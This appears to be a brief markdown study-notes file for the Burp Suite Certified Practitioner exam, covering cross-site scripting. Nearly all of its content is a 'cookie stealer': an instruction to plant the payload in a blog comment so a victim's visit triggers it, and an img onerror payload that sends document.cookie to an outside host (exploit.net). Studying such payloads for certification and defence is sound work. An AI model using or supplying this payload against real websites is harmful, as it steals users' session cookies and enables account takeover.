 # Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

** Place payload in blog post comment section for victim to visit and send cookie.
```
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```
